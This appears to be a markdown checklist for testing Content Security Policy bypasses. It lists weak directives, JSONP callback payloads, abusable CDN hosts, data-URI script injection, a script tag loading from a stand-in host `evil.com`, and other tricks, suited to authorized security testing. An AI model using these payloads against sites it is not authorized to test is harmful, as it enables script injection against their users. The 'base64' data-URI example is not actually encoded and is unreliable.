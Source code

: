

> Use this checklist to test for CSP misconfigurations or bypasses in client-side contexts. Focus on weak/unsafe directives, trusted third parties, and bypassing script restrictions.

## Script Injection via Weak Directives
- [ ] `script-src 'unsafe-inline'`
- [ ] `script-src 'unsafe-eval'`
- [ ] `script-src *`
- [ ] `script-src data:`
- [ ] `script-src blob:`
- [ ] `script-src filesystem:`
- [ ] `script-src https://trusted.com` (inject via trusted.com if vulnerable)
- [ ] `script-src *.cdn.com` (wildcard abuse)
- [ ] `script-src self https://*.trusted-cdn.com`
- [ ] `script-src https://domain.com/` (directory with wildcard inclusion)

## JSONP/Callback Abuse
- [ ] `https://api.example.com/jsonp?callback=evil()`
- [ ] `https://vulnerable.cdn.com?jsonp=alert(1)`
- [ ] `jsonp or callback param reflecting in trusted domain`
- [ ] `CSP allows execution from JSONP-capable endpoint`

## Third-Party CSP-Compatible Script Hosting
- [ ] `https://gist.github.com/raw/`
- [ ] `https://cdn.jsdelivr.net/gh/user/repo/file.js`
- [ ] `https://cdnjs.cloudflare.com/ajax/libs/...`
- [ ] `https://code.jquery.com/jquery-X.X.X.min.js`
- [ ] `https://unpkg.com/...`
- [ ] `https://raw.githubusercontent.com/...`
- [ ] `Google Translate domain inclusion abuse`
- [ ] `Google APIs or Firebase Hosting with open project`

## Base64/Data URI Injection
- [ ] `data:text/html;base64,<script>alert(1)</script>`
- [ ] `data:text/javascript;base64,...`
- [ ] `data:application/x-javascript,...`

## Bypasses via Trusted Domains
- [ ] `cdn.example.com` reflects scripts
- [ ] `trusted.example.com` has open redirect to `javascript:`
- [ ] `*.cloudfront.net` hosts user content
- [ ] `*.azureedge.net` (user-hosted content allowed)
- [ ] `*.github.io` with CSP trust

## Sandbox Escape Techniques
- [ ] `<iframe sandbox="allow-scripts">`
- [ ] `<script src=//evil.com> bypass via blob injection`
- [ ] Blob → Script Injection Chain (CSP allows `blob:`)
- [ ] `window.open("javascript:")` via redirect

## CSP Header Misconfiguration
- [ ] Multiple CSP headers (bypass strongest)
- [ ] Invalid directive (fallback to default)
- [ ] Typo in directive (e.g., `scrip-src`)
- [ ] Missing fallback in `default-src`
- [ ] Overly permissive `default-src *`
- [ ] CSP only enforced on non-critical routes

## CSP via Meta Tag (weaker enforcement)
- [ ] `<meta http-equiv="Content-Security-Policy">` only
- [ ] Meta CSP differs from response CSP
- [ ] Injected meta tag in reflected input

## Mixed Content CSP Bypass
- [ ] CSP allows HTTP resources on HTTPS site
- [ ] Resource injection via iframe with mixed content
- [ ] Image or script proxying from non-HTTPS origins

## Special Tricks
- [ ] `style-src` allows inline scripts via CSS injection
- [ ] `object-src` not set (Flash, PDF injection)
- [ ] Service Worker registration bypassing CSP
- [ ] `report-uri` leaks private CSP policies
- [ ] Relaxed `connect-src` + leaked API keys